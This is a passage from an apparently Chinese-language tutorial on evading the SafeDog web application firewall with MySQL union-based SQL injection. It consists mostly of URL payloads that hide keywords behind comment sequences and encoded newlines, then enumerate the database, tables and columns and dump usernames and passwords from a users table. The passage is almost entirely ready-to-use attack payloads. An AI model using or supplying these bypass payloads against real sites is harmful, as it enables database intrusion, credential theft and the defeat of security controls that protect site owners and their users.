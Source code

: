 
```
`#字段名``?id=-1%20union%20all%23%0a%20select%201,group_concat(%23%0acolumn_name),3 from information_schema.columns where table_name=0x7573657273%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#字段内容``?id=-1%20union%20all%23%0a%20select%201,group_concat(%23%0a0x7e,username,password),3 from users%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

### **第五种：字符型**

– - 是mysql的注释符 然后加上%0a 换行。安全狗正则匹配order by,union select。并不单纯匹配某一个单词函数-- -a%0a

```
`#字段数``?id=1 order -- -a%0a by 3%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

```
`#数据库``?id=-1 union-- -a%0a select 1,database-- -a%0a(),3%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#表名``?id=-1 union-- -a%0a select 1,group_concat(-- -a%0atable_name),3 from information_schema.tables where table_schema=0x7365637572697479%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``?id=-1 union-- -a%0a select 1,group_concat(-- -a%0acolumn_name),3 from information_schema.columns where table_name=0x7573657273%23`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

```
`#字段内容``?id=-1 union-- -a%0a select 1,group_concat(-- -a%0a0x7e,username,password),3 from users%23`
```
